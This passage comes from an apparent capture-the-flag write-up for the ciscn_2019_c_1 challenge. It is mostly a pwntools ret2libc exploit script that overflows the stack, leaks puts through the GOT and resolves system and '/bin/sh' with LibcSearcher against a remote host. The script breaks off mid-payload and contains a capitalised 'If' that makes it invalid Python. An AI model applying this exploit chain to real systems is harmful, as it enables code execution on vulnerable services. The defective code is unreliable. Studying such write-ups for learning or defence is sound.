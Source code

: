 You can see that at this time, `0x79` plus the end `\x00`, that is, `0x80` can be divided by `0x10`, that is, `16`, and stack aligned.

<div align=center><img src="./images/39.png"></div>

`exploit` is as follows:

```python
from pwn import *
from LibcSearcher import *

content = 1
context(os='linux', arch='amd64', log_level='debug')

remote_env = 'node4.buuoj.cn:28141'
local_env = './ciscn_2019_c_1'

elf = ELF(local_env)
ret_addr = 0x00000000004006b9
pop_rdi_addr = 0x0000000000400c83

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

log.success('puts_plt = ' + hex(puts_plt))
log.success('puts_got = ' + hex(puts_got))
log.success('main_addr = ' + hex(main_addr))

If content:
    sh = remote(remote_env.split(':')[0], int(remote_env.split(':')[1]))
else:
    sh = process(local_env)

payload_leak_libc = '\0' + 'a' * (0x50 + 7)
payload_leak_libc += p64(pop_rdi_addr)
payload_leak_libc += p64(puts_got)
payload_leak_libc += p64(puts_plt)
payload_leak_libc += p64(main_addr)

sh.sendlineafter('Input your choice!\n', '1')
sh.sendlineafter('Input your Plaintext to be encrypted\n', payload_leak_libc)
sh.recvuntil('Ciphertext\n')
sh.recvuntil('\n')

puts_addr = u64(sh.recvuntil('\n', drop=True).ljust(8, '\x00'))
log.success('puts_addr = ' + hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
libc_base_addr = puts_addr - libc.dump('puts')
binsh_addr = libc_base_addr + libc.dump('str_bin_sh')
system_addr = libc_base_addr + libc.dump('system')

log.success('libc_base_addr = ' + hex(libc_base_addr))
log.success('binsh_addr = ' + hex(binsh_addr))
log.success('system_addr = ' + hex(system_addr))

payload_attack = '\0' + 'a' * (0x50 + 7)
```